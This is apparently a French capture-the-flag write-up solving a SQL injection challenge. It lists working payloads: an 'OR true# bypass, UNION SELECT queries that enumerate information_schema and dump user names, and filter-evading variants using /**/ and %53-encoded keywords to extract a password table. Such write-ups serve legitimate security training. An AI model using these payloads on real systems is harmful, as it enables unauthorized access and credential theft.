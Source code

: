 Pour la première table le OR nous met sur la piste d'une sql :
'OR true#

on récupère le téléphone et l'adresse

Pour la seconde table :
'UNION SELECT table_name,null FROM information_schema.tables#
'UNION SELECT column_name,null FROM information_schema.columns WHERE table_name="Users"#
'UNION SELECT nom,prenom FROM Users#

on récuère le nom et le prénom

Pour la dernière table on connnait d'après la 1ère table le code de l'opération:
OpérationGorfou on obtient la date et l'heure.

Pour le mot de passe nous devons bypass des filtres d'où le FILTER dans le titre de la page:
/**/ pour bypass les espaces et %53NION pour bypass le UNION
'union/**/%53elect/**/table_name,null,null/**/from/**/information_schema.tables#
'union/**/%53elect/**/column_name,null,null/**/from/**/information_schema.columns/**/where/**/table_name="Password"#
'union/**/%53elect/**/mdp,null,null/**/from/**/Password#

on récupère le mot de passe

